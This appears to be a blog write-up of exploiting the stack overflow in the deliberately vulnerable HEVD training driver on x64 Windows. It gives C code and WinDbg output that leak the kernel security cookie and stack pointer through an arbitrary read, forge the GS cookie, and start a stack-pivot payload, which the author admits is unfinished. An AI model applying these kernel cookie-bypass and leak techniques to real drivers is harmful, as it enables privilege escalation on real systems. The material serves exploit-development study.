










StackOverflow GS x64
Introduction
After spending some time working on kernel exploits, I’m going to take a short break to dive into Windows attacks and some “red team” activities. To wrap up these three exploits in the HEVD driver, I’d like to show you some stack overflows, so you’ve seen exploits targeting buffers, unprotected stacks, and protected stacks.
I want to apologize before I begin: it took me a few months to write this post due to college exams, so enjoy the blog, and, God willing, the next post will be an investigation into Windows or a zero-day kernel exploit; in other words, there will be no more public documentation on HEVD exploitation on this blog :D
Environment
To be honest, I won’t explain this, if you want to know more information please check any other HEVD explotation, I have the same OS and setup.
I only share the main source to understand structures: https://www.vergiliusproject.com/kernels/x64/windows-10/1809/
Source Analysis
Compared to other functions, stackoverflow isn’t hard to understand at all. It’s just two functions with a few lines of code, which is pretty interesting at first glance, haha

Knowing the calling convention __fastcall, we know that the argument list from left to right are passed in ECX and EDXX registers, all other arguments are passed on the stack from right to left. In other words:
RCX -> UserBuffer
EDX -> SizeIf you want to learn more about __fastcall calling convention: https://learn.microsoft.com/en-us/cpp/cpp/fastcall?view=msvc-170
Furthermore, triggering the BOF only requires overwriting 512 (0x200) bytes of data. This vulnerability exists because memmove(KernelBuffer, UserBuffer, Size); trusts the user-supplied Size parameter instead of validating it against sizeof(KernelBuffer).
Since we are dealing with kernel drivers that have modern protections enabled, we will run into issues with the StackCookie, which is designed to detect stack buffer overflows and prevent control-flow hijacking.

But, this we will get in detail in a few moments, first of all we want to get the BSOD related with the Canary Cookie.
First contact
Once we understand how the driver works, lets try to call the IOCTL to see how it works. Just a reminder that to view kernel debug messages outside of Windbg, you can use the DebugView tool from Sysinternals.
#include <windows.h>
#include <stdio.h>
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_BUFFER_OVERFLOW_STACK_GS IOCTL(0x801)
int main() {
HANDLE hFile = CreateFile(L"\\\\.\\HackSysExtremeVulnerableDriver",
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ| FILE_SHARE_WRITE,
NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[-] Driver not found: %d\n", GetLastError());
return 1;
}
printf("[+] Driver handle: %p\n", hFile);
char buff[] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
printf("[+] Sending A's buffer with a size of: 0x%zx\n",sizeof(buff));
DeviceIoControl(hFile, HEVD_IOCTL_BUFFER_OVERFLOW_STACK_GS, buff, sizeof(buff), NULL, 0, NULL, NULL);
return 0;
}
As we can see, we have contorl of the RCX register, if we increase its size, it causes a blue screen:
DRIVER_OVERRAN_STACK_BUFFER (f7)
A driver has overrun a stack-based buffer. This overrun could potentially
allow a malicious user to gain control of this machine.
DESCRIPTION
A driver overran a stack-based buffer (or local variable) in a way that would
have overwritten the function's return address and jumped back to an arbitrary
address when the function returned. This is the classic "buffer overrun"
hacking attack and the system has been brought down to prevent a malicious user
from gaining complete control of it.
Do a kb to get a stack backtrace -- the last routine on the stack before the
buffer overrun handlers and BugCheck call is the one that overran its local
variable(s).
Arguments:
Arg1: bcbce548c2f26772, Actual security check cookie from the stack
Arg2: 000031f2602f5419, Expected security check cookie
Arg3: ffffce0d9fd0abe6, Complement of the expected security check cookie
Arg4: 0000000000000000, zeroBut, why?
Debugging BSOD (0xf7)
Setting a breakpoint on: HEVD!BufferOverflowStackGSIoctlHandler, we can understand that the Irp that we saw before is the rcx we assume:
fffff802`61de66c4 488b4a20 mov Irp (rcx), qword ptr [IrpSp->Parameters{.CreatePipe.Parameters} (rdx+20h)]If we continue the control flow and reading the rcx value, we will see all of ours A’s:
5: kd> t
HEVD!BufferOverflowStackGSIoctlHandler+0x4:
fffff802`61de66c4 488b4a20 mov rcx,qword ptr [rdx+20h]
5: kd> dq rcx
000000b3`fe98f3b0 41414141`41414141 41414141`41414141
000000b3`fe98f3c0 41414141`41414141 41414141`41414141
000000b3`fe98f3d0 41414141`41414141 41414141`41414141
000000b3`fe98f3e0 41414141`41414141 41414141`41414141
000000b3`fe98f3f0 41414141`41414141 41414141`41414141
000000b3`fe98f400 41414141`41414141 41414141`41414141
000000b3`fe98f410 41414141`41414141 41414141`41414141
000000b3`fe98f420 41414141`41414141 41414141`41414141Continuing with the reversing we can found the allocation of the KernelBuffer struct:

After the DbgPrintEx functions we found ONLY in the assembly the _security_check_cookie function the cause of the blue screen.
I have done a comparation of Windbg assembly with the pseuco-C and assembly from IDA Pro 9.0, so you can also have the same mindset of the driver as mine:

Here’s a quick color guide to help you understand, it might seem confusing at first, but don’t worry:
- Red: Junk code,
DbgPrintExinstructions - Green:
memcpyarguments list - Brown:
__security_check_cookieinstructions
All of that only to know that the stack cookie is stored in rsp+0x220. Thus, to complete the path for the BSOD, in the instruction inside the HEVD!__security_check_cookie function, if the Stack Cookie is not the predicted it will call to __report_gsfailureand set the BSOD value to 0xF7 (fffff80757d21144),
HEVD!__security_check_cookie: CFG
fffff807`57d21110 483b0de91e0000 cmp rcx, qword ptr [HEVD!__security_cookie (fffff80757d23000)]
fffff807`57d21117 7510 jne HEVD!__security_check_cookie+0x19 (fffff80757d21129)
fffff807`57d21119 48c1c110 rol rcx, 10h
fffff807`57d2111d 66f7c1ffff test cx, 0FFFFh
fffff807`57d21122 7501 jne HEVD!__security_check_cookie+0x15 (fffff80757d21125)
fffff807`57d21124 c3 ret
fffff807`57d21125 48c1c910 ror rcx, 10h
fffff807`57d21129 e902000000 jmp HEVD!__report_gsfailure (fffff80757d21130)
fffff807`57d2112e cc int 3
fffff807`57d2112f cc int 3
HEVD!__report_gsfailure [minkernel\tools\gs_support\kmode\gs_report.c @ 37]:
fffff807`57d21130 4883ec38 sub rsp,38h
fffff807`57d21134 488364242000 and qword ptr [rsp+20h],0
fffff807`57d2113a 488bd1 mov rdx,rcx
fffff807`57d2113d 4c8b0dc41e0000 mov r9,qword ptr [HEVD!__security_cookie_complement (fffff807`57d23008)]
fffff807`57d21144 b9f7000000 mov ecx,0F7h
fffff807`57d21149 4c8b05b01e0000 mov r8,qword ptr [HEVD!__security_cookie (fffff807`57d23000)]
fffff807`57d21150 48ff15210f0000 call qword ptr [HEVD!_imp_KeBugCheckEx (fffff807`57d22078)]
fffff807`57d21157 0f1f440000 nop dword ptr [rax+rax]x32 Bypass (EXP-301 Content)
While researching about stack cookie I found a method in the OSED preparation exam to bypass it, the drawback is only for 0x86 Systems, but we are here to learn not only to show off a common LPE haha, so here you are what the OSED says about how to bypass StackCookie with SEH mechanism:
Overwriting an exception handler and causing the application to crash in any way
triggers the SEH mechanism and causes the instruction pointer to be redirected
to the address of the exception_handler prior to reaching the end of the
vulnerable function. Because of this increasing the size of a stack overflow and
overwriting a _EXCEPTION_REGISTRATION_RECORD can allow an attacker to
bypass stack cookies.On 32-bit Windows, Structured Exception Handling (SEH) records were stored on the stack. That made them directly overwriteable via a stack buffer overflow, enabling the classic “SEH overwrite → pop/pop/ret → shellcode” technique.
But why it doesnt works on x64 systems?
- SEH is no longer stack-based in the same way.
- Exception handling uses table-based unwinding driven by metadata (the
.pdata/.xdatasections). - The OS validates exception handlers against these tables.
Bypassing GS/Stack Cookie
As we have seen, the _security_cookie is stores in the .data section of the driver, but we don’t have to mix it with the stack_cookie.
Thanks to flysand7, we can understand better how security cookie works:
The XOR operation has one interesting property that is important to us. When we xor the cookie and the return address, that value can be XOR’d with the return address and we should receive back the cookie (similarly it can be XOR’d with the cookie and we can get back the return address).
This is exactly what the code does before calling __check_security_cookie
mov rcx, [rsp+120h] ; get the new value
xor rcx, rbp ; rcx is now supposed to be the cookie
call __security_check_cookie ; check rcx for if it is the cookieThe function __security_check_cookie has one parameter, which is the retrieved cookie. If the retrieved value is equal to __security_cookie then the check passes and no buffer overflow happened. Otherwise the check fails and that function proceeds to handle the situation.
Thus, _security_cookie is in HEVD+0x0867d8:
9: kd> lm m HEVD
Browse full module list
start end module name
fffff800`20600000 fffff800`2068c000 HEVD (private pdb symbols) C:\ProgramData\Dbg\sym\HEVD.pdb\A31BAF7C04024598B9D0BAEB8C4F26891\HEVD.pdb
9: kd> lm m HEVD
Browse full module list
start end module name
fffff800`20600000 fffff800`2068c000 HEVD (private pdb symbols) C:\ProgramData\Dbg\sym\HEVD.pdb\A31BAF7C04024598B9D0BAEB8C4F26891\HEVD.pdb
9: kd> ? fffff800`206866e0-fffff800`20600000
Evaluate expression: 550624 = 00000000`000866e0
9: kd> ? 0x866e0 + 0xf8
Evaluate expression: 550872 = 00000000`000867d80000000140003000 ; uintptr_t _security_cookie
0000000140003000 __security_cookie dq 2B992DDFA232h ; DATA XREF: __security_check_cookieFor the leak, if we try to read the content as usermode we will have the following erro:

This would be the code if we have kernel-mode permissions:\
#include "Header.h"
int main() {
HANDLE hFile = CreateFile(L"\\\\.\\HackSysExtremeVulnerableDriver",
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[-] Driver not found: %d\n", GetLastError());
return 1;
}
printf("[+] Driver handle: %p\n", hFile);
ULONG64 hevdBaseAddr = getBaseAddr(L"HEVD.sys");
printf("[+] Driver Base Address @ 0x%llX\n", hevdBaseAddr);
ULONG64 securityCookie, securityCookieAddr;
getSecurityCookie(hevdBaseAddr, &securityCookie, &securityCookieAddr);
printf("[+] __security_cookie @ 0x%llX with value: 0x%llX\n", securityCookieAddr, securityCookie);
char buff[] = "ASDAASD";
printf("[+] Sending A's buffer with a size of: 0x%zx\n", sizeof(buff));
DeviceIoControl(hFile, HEVD_IOCTL_BUFFER_OVERFLOW_STACK_GS, buff, sizeof(buff), NULL, 0, NULL, NULL);
return 0;
}
ULONGLONG getBaseAddr(LPCWSTR drvName) {
LPVOID drivers[512];
DWORD cbNeeded;
int nDrivers, i = 0;
if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
WCHAR szDrivers[512];
nDrivers = cbNeeded / sizeof(drivers[0]);
for (i = 0; i < nDrivers; i++) {
if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
if (wcscmp(szDrivers, drvName) == 0) {
return (ULONGLONG)drivers[i];
}
}
}
}
return 0;
}
void getSecurityCookie(ULONG64 baseAddr, PULONG64 securityValue, PULONG64 securityAddr) {
ULONGLONG cookieAddr = baseAddr + SECURITY_COOKIE_OFFSET;
ULONGLONG securityCookie = *(ULONGLONG*)cookieAddr;
*securityAddr = cookieAddr;
*securityValue = securityCookie;
}Exploiting ArbitraryRead for leak
But we dont have, so we have to exploit an arbitrary read to obtain the security cookie:
int getSecurityCookie(ULONG64 baseAddr, PULONG64 securityValue, PULONG64 securityAddr) {
/* Usermode sketch
ULONGLONG cookieAddr = baseAddr + SECURITY_COOKIE_OFFSET;
ULONGLONG securityCookie = *(ULONGLONG*)cookieAddr;
*securityAddr = cookieAddr;
*securityValue = securityCookie;
*/
HANDLE hFileLeak = CreateFile(L"\\\\.\\HackSysExtremeVulnerableDriver",
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFileLeak == INVALID_HANDLE_VALUE) {
printf("\t[-] Driver not found: %d\n", GetLastError());
return 1;
}
printf("\t[+] Driver Leak handle @ %p\n", hFileLeak);
PWRITE_WHAT_WHERE inputBuffer = (PWRITE_WHAT_WHERE)malloc(sizeof(WRITE_WHAT_WHERE));
printf("\t[+] Triggering Arbitrary Write to leak cookie...\n");
ULONGLONG cookieAddrKrnl = baseAddr + SECURITY_COOKIE_OFFSET;
printf("\t[+] Kernel Source (What): 0x%llX\n", cookieAddrKrnl);
inputBuffer->What = (PULONG_PTR)cookieAddrKrnl;
inputBuffer->Where = (PULONG_PTR)securityValue;
printf("\t[+] User Destination (Where): 0x%p\n", securityValue);
DWORD bytesReturned;
BOOL status = DeviceIoControl(hFileLeak, HEVD_IOCTL_ARBITRARY_WRITE, inputBuffer, sizeof(inputBuffer), NULL, 0, NULL, NULL);
if (!status)
printf("\t[-] DeviceIoControl failed: %d\n", GetLastError());
else {
*securityAddr = cookieAddrKrnl;
printf("\t[+] __security_cookie leaked: 0x%llX\n", *securityValue);
}
printf("[!] Driver Leak Handle closing...\n");
free(inputBuffer);
CloseHandle(hFileLeak);
return status ? 0 : 1;
}Now we have to verify the value of the driver is correct.

The leak is correct, but we’re still getting a blue screen, because right after saving the security cookie value, it performs an XOR operation on the RSP address:

Leaking RSP
PWe have the raw __security_cookie, but as seen in the XOR instruction above, what the driver actually stores on the stack is:
stack_cookie = __security_cookie XOR RSPSo to forge a valid cookie we need to know the exact RSP value at the moment TriggerBufferOverflowStackGS executes. We have to predict rsp value from usermode before sending the payload.
In this case we will be leaking with StackLimit.
StackLimit
As we know, the kernel stacks grows downwards, the StackLimit is the lowest valid address of the klernel stack. If we start scanning from there upward, we will traverse the entire kernel stack (of our current thread), incluiding the call chain that led to out IOTCL handler.
To obtain the StackLimit value we have to use NtQuerySystemInformation with SystemExtendedProcessInformation class, which returns extended thread information:
ULONG64 GetStackLimit() {
printf("\t[*] Extracting StackLimit value...\n");
ULONG returnLength = 0;
NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)57, NULL, 0, &returnLength);
PSYSTEM_EXTENDED_PROCESS_INFORMATION pProcInfo = (PSYSTEM_EXTENDED_PROCESS_INFORMATION)malloc(returnLength);
if (NT_SUCCESS(NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)57, pProcInfo, returnLength, &returnLength))) {
DWORD currentPid = GetCurrentProcessId();
DWORD currentTid = GetCurrentThreadId();
printf("\t\t[+] Current Process ID: 0x%lX\n", currentPid);
printf("\t\t[+] Current Thread ID: 0x%lX\n", currentTid);
PSYSTEM_EXTENDED_PROCESS_INFORMATION pCurrProc = pProcInfo;
while (pCurrProc) {
if ((DWORD_PTR)(pCurrProc->ProcessInfo.UniqueProcessId) == currentPid) {
for (ULONG i = 0; i < pCurrProc->ProcessInfo.NumberOfThreads; i++) {
if ((DWORD_PTR)(pCurrProc->Threads[i].ThreadInfo.ClientId.UniqueThread) == currentTid) {
ULONG64 stackLimit = (ULONG64)pCurrProc->Threads[i].StackLimit;
free(pProcInfo);
printf("\t\t[+] StackLimit found: 0x%llX\n", stackLimit);
return stackLimit;
}
}
}
if (!pCurrProc->ProcessInfo.NextEntryOffset) break;
pCurrProc = (PSYSTEM_EXTENDED_PROCESS_INFORMATION)((PUCHAR)pCurrProc + pCurrProc->ProcessInfo.NextEntryOffset);
}
}
if (pProcInfo) free(pProcInfo);
return 0;
}Stack Search
We exploit our arbitrary read primitive to scan the kernel stack from StackLimit upward, 8 bytes at a time, until we find that exact value:
for (int i = 0; i < 0x7000; i++) {
leakedValue = ArbitraryRead64(hDriver, currentAddress, &readOk);
if (leakedValue == HEVD_IOCTL_ARBITRARY_WRITE) { // 0x222007
ctlCodeAddress = currentAddress;
break;
}
currentAddress += 8;
}RSP offset from StackLimit
Once we locate the IOCTL value on the stack, we know its exact kernel address, from there subtracting a fixed offset gives us the RSP at the entry of the main function: TriggerBufferOverflowStackGS.
The logic to obtain this fixed offset was searching in the thread stack the IOCTL value, as we do in the C-code, and subtracting it from the rsp value.
10: kd> s -q rsp L1000 222007
ffffe484`d68087d8 00000000`00222007 00000000`00000002
ffffe484`d6808ab8 00000000`00222007 00000221`29ffea00
10: kd> ? ffffe484`d68087d8 (ioctl address) - ffffe484d6808530 (rsp)
Evaluate expression: 680 = 00000000`000002a8Knowing this we can bypass the __security_check_cookie:
ULONG64 CalculateFinalStackCookie(HANDLE hDriver, ULONG64 originalCookie, ULONG64 stackLimit, ULONG64* outRSP) {
ULONG64 ctlCodeAddress = 0;
ULONG64 currentAddress = stackLimit;
ULONG64 leakedValue = 0;
printf("\t[*] Searching IOCTL (0x22200B) value...\n");
for (int i = 0; i < 0x7000; i++) {
BOOL readOk = FALSE;
leakedValue = ArbitraryRead64(hDriver, currentAddress, &readOk);
if (!readOk) {
printf("[-] Error while calling ArbitraryRead64\n");
return 0;
}
if (leakedValue == HEVD_IOCTL_ARBITRARY_WRITE) {
ctlCodeAddress = currentAddress;
printf("\t[+] IOCTL found @ 0x%llX\n", ctlCodeAddress);
break;
}
currentAddress += 8;
}
if (ctlCodeAddress == 0) {
printf("\t[-] IOCTL doesn't found in the stack\n");
return 0;
}
ULONG64 predictedRSP = ctlCodeAddress - RSP_OFFSET;
printf("\t[+] RSP value: 0x%llX\n", predictedRSP);
ULONG64 finalCookie = originalCookie ^ predictedRSP;
printf("[+] Final cookie: 0x%llX\n", finalCookie);
*outRSP = predictedRSP;
return finalCookie;
}
Calculating registers offsets
Tbh, I don’t used this because the explotation isn’t completed, but as we saw in the last screenshot, some RBP and RIP offsets were calculated before, thats was thanks to the cyclic pattern of wiremask:

Knowing this offsets can be usefull for a stack pivot, rop chain, etcetc. As the Nx protection is on our page, while trying to execute any code we will get the BSOD with the stop code: ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY, you can create a ROP chain to bypass that, but to be honest, I prefer doing any other research on windows.
Conclusion
I will share you the final code I have in the moment, if someone wants to stack pivot this or create a complex rop chain for LPE goodluck, I just remove SMEP from the cr4 register haha
#include "Header.h"
int main() {
HANDLE hFile = CreateFile(L"\\\\.\\HackSysExtremeVulnerableDriver",
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[-] Driver not found: %d\n", GetLastError());
return 1;
}
printf("[+] Driver handle @ %p\n", hFile);
unsigned char shellcode[] = {
0xdeadbeef
};
ULONG64 hevdBaseAddr = getBaseAddr(L"HEVD.sys");
printf("[+] Driver Base Address @ 0x%llX\n", hevdBaseAddr);
ULONG64 securityCookie, securityCookieAddr;
printf("[+] Leaking __security_cookie...\n");
int intBool = getSecurityCookie(hevdBaseAddr, &securityCookie, &securityCookieAddr);
if (intBool != 0) { return 1; }
printf("[+] Calculating final cookie:\n");
ULONG64 stackLimit = GetStackLimit();
printf("\t[+] StackLimit Value: 0x%llX\n", stackLimit);
ULONG64 predictedRSP = NULL;
ULONG64 finalCookie = CalculateFinalStackCookie(hFile, securityCookie, stackLimit, &predictedRSP);
if (finalCookie == 0x01 || finalCookie == 0x00) {
printf("[-] Error while calling CalculateFinalStackCookie\n");
return 0;
}
// Stack Pivot
ULONGLONG krnlBase = getBaseAddr(L"ntoskrnl.exe");
ULONGLONG gadget_pop_rsp = krnlBase + 0x02abe6;
printf("[+] Performing StackPivot\n");
#define KSTACK_BUFFER_OFFSET 0x208
ULONG64 kernelBufferAddr = predictedRSP - KSTACK_BUFFER_OFFSET;
printf("[+] Kernel buffer addr: 0x%llX\n", kernelBufferAddr);
DWORD buffSize = BUFFER_SIZE + CANARY_SIZE + PADDING_SIZE + 0x8*2;
ULONG64 shellcodeAddr = predictedRSP + 0x20 + INITIAL_PADDING;
unsigned char* buff = (unsigned char*)malloc(buffSize);
memset(buff, 0x59, buffSize);
memcpy(buff+INITIAL_PADDING, shellcode, sizeof(shellcode));
*(ULONGLONG*)(buff + BUFFER_SIZE) = finalCookie;
*(ULONGLONG*)(buff + BUFFER_SIZE + CANARY_SIZE + OFFSET_RDI) = 0x5555555555555555; // RDI Overwrite
*(ULONGLONG*)(buff + BUFFER_SIZE + CANARY_SIZE + OFFSET_RSI) = 0x7777777777777777; // RSI Overwrite
*(ULONGLONG*)(buff + BUFFER_SIZE + CANARY_SIZE + PADDING_SIZE) = gadget_pop_rsp; // RSP
*(ULONGLONG*)(buff + BUFFER_SIZE + CANARY_SIZE + PADDING_SIZE) = (ULONGLONG)shellcodeAddr; // RBX Overwrite
printf("[+] Sending payload size of 0x%lx bytes:\n", buffSize);
printf("\t[?] [0x000] Buffer:\tY's\n");
printf("\t[?] [0x%d] Canary:\t0x%llX\n", BUFFER_SIZE, finalCookie);
printf("\t[?] [0x%d] RDI:\t0x%llX\n", BUFFER_SIZE + CANARY_SIZE + OFFSET_RDI, 0x5555555555555555);
printf("\t[?] [0x%d] RIP:\t0x%llX\n", BUFFER_SIZE + CANARY_SIZE + PADDING_SIZE, (ULONGLONG)shellcodeAddr);
printf("\t[?] [0x%d] RSP:\t0x%llX\n", BUFFER_SIZE + CANARY_SIZE + PADDING_SIZE, (ULONGLONG)gadget_pop_rsp);
